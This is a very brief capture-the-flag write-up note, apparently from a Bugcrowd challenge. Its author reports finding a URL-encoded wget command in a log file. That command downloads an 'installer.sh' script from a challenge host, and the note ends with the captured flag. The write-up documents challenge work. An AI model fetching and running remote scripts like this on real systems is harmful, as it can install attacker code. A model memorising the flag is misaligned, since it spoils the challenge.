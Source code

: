 ```yaml
---
created: 2024-08-08T09:50
updated: 2024-08-08T09:58
---
```


Just by chance, when cleaning up the log file with `replace`, I ended up on a `cmd`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1723125446/2024/08/8896d79a0f95c9011d5e608e8c696db5.png)

```
wget+https%3A%2F%bugcrowd-leaked.chals.io%2Ff8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c%2Finstaller.sh.txt

https://bugcrowd-leaked.chals.io/f8b7c5a3-9e1d-4f6b-8d2a-3c4e5f6a7b8c/installer.sh.txt
```

```flag
flag{Blu3_DA_b@_d3E_d@_ba>d1$%^$%}
```
